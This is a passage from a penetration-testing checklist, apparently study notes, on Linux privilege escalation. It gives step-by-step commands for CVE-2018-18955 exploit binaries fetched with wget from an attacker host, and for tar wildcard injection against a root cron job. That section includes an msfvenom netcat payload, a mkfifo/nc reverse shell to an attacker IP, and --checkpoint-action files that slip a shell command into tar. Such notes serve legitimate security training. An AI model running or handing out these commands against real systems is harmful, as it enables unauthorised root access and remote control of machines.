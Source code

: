 - [ ] Run `exploit-1` on the Target Machine
```
./exploit-1
```

- [ ] Run `exploit-2` on the Target Machine
```
./exploit-2 /usr/bin/sudo
```

## subuid_shell (CVE-2018-18955)

- [ ] Download appropriate binaries and serve on your Kali Machine
```
https://github.com/scheatkode/CVE-2018-18955/releases/tag/v0.0.1
python3 -m http.server 80
```
- I used [linux-x86_64.tar.gz](https://github.com/scheatkode/CVE-2018-18955/releases/download/v0.0.1/linux-x86_64.tar.gz)

- [ ] Transfer to the Target Machine
```
wget 192.168.xxx.xxx/linux-x86_64.tar.gz
tar -xvf linux-x86_64.tar.gz
cd linux-x86_64/bin
```

- [ ] Run exploit on the Target Machine
```
chmod 777 subuid_shell
./subuid_shell
```
- Try the other binaries in the zip file if this doesn't work

## Unix Wildcard Injection
> Can be used if cronjob or binary is run by root

### Tar Wildcard Injection

- [ ] Check for `tar` wildcard `cron` job run as root on the Target Machine
```
ls -lah /etc/cron*
```
Examples:
- `sudo tar -cf example.tar *`
- `tar cf archive.tar *`
- `tar -zxf /tmp/backup.tar.gz *`

- [ ] Generate a `nc` reverse shell payload using `msfvenom` on your Kali Machine
```
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.xxx.xxx lport=8888 R
```

- [ ] Navigate to the directory that the `cronjob` will run `tar` with a wildcard and create the 3 exploit files on the Target Machine
```
echo "mkfifo /tmp/fgbepo; nc 192.168.xxx.xxx 8888 0</tmp/fgbepo | /bin/sh >/tmp/fgbepo 2>&1; rm /tmp/fgbepo" > shell.sh
echo "" > --checkpoint=1 
echo "" > "--checkpoint-action=exec=sh shell.sh" 
```
- Running `tar cf archive.tar *` now will be giving a reverse shell as the current user

- [ ] Get reverse shell

